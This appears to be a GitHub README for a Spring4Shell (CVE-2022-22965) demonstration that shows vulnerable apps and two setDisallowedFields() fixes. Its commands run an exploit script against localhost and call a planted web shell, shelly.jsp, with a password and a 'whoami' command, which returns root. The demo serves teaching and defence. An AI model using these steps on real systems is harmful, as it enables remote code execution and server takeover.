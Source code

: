 # Spring4Shell RCE Demo for CVE-2022-22965
![MindMap](spring4shell_mindmap.svg)

## Types of demo

1. spring-mvc (with spring-boot) deployed as a war to Apache Tomcat
2. spring-boot war with jsp, to be run as `java -jar`
3. spring-boot jar without jsp, to be run as `java -jar`

While the first spring-mvc in Apache Tomcat is vulnerable, the latter two types -- where spring-boot runs in 
Embedded Tomcat Servlet Container -- do not appear to be vulnerable. 
See also https://www.praetorian.com/blog/spring-core-jdk9-rce/

### Update 04/04/2022 
Initial rumors on the internet claimed that RestControllers where not impacted by this vulnerability but it appears 
that these are equally vulnerable. 

### Endpoints
The endpoints to test the application are:
- `/`, `/request`, `/rest/request`, `/safe-request` or `/rest/safe-request`
- `/get`, `/rest/get`
- `/post`, `/rest/post`
- `/put`, `/rest/put`

Lastly, `spring4shell-exploit.sh` is a standalone bash script for testing the exploit against any app.

### TODO
- implement POC for CVE-2022-22963 SpEL

## Run spring-mvc demo

To run the spring-mvc demo, the war file needs to be deployed to a Tomcat container.

For convenience, there is a pre-built docker container. Here is how see the exploit in action:
```
# Run a sample vulnerable app
$ docker run -p 8080:8080 --rm spring4shell

# Install and run the exploit
$ bash spring4shell-exploit.sh http://localhost:8080 spring4shell-rce/request

# Try manually running (after a small delay)
$ curl --fail -v --output - 'http://localhost:8080/shelly.jsp?pwd=PeekAboo&cmd=whoami'
> GET /shelly.jsp?pwd=PeekAboo&cmd=whoami HTTP/1.1
> Host: localhost:8080
> Accept: */*
> 
< HTTP/1.1 200 
< Content-Type: text/html;charset=ISO-8859-1
< Content-Length: 2291
< 
root
```

<br/>

The demo also contains two fixes.

One fix is to apply binder [setDisallowedFields() at controller level](https://github.com/dotnes/spring4shell/blob/main/spring4shell-spring-mvc/src/main/java/com/example/spring4shell/controller/SafeHelloWorldController.java#L22-L29):
```
# Run or restart the sample app.
$ docker run -p 8080:8080 --rm dotnes/spring4shell

# Try to install the exploit against safe controller. It should fail
# (Make sure the exploit was not previously installed)
$ bash spring4shell-exploit.sh http://localhost:8080 spring4shell/safe-helloworld

# Try manually running (after a small delay)
$ curl --fail -v --output - 'http://localhost:8080/shelly.jsp?pwd=PeekAboo&cmd=whoami'
curl: (22) The requested URL returned error: 404
```

Another fix is to apply [setDisallowedFields() with a controller advice](https://github.com/dotnes/spring4shell/blob/main/spring4shell-spring-mvc/src/main/java/com/example/spring4shell/controller/BinderControllerAdvice.java#L7-L20), for all controllers:
```
# Run or restart the sample app.
$ docker run -p 8080:8080 --rm -e APPLY_ADVICE=true spring4shell

# Install and run the exploit against unsafe controller. It should fail.
# (Make sure the exploit was not previously installed)
$ bash spring4shell-exploit.sh http://localhost:8080 spring4shell/request
curl: (22) The requested URL returned error: 404 
```

## Run spring-boot war with jsp

```
# Run a sample vulnerable app
$ docker run -p 8080:8080 --rm spring4shell-spring-boot-war

# Try to install the exploit. It should fail
$ bash spring4shell-exploit.sh http://localhost:8080 spring4shell/request
curl: (22) The requested URL returned error: 404
```

## Run spring-boot jar without jsp

```
# Run a sample vulnerable app
$ docker run -p 8080:8080 --rm spring4shell-spring-boot-jar

# Try to install the exploit. It should fail
$ bash spring4shell-exploit.sh http://localhost:8080 spring4shell/request
curl: (22) The requested URL returned error: 404
```

# Credits
Big shout out to @maxxedev for creating the foundation of this project.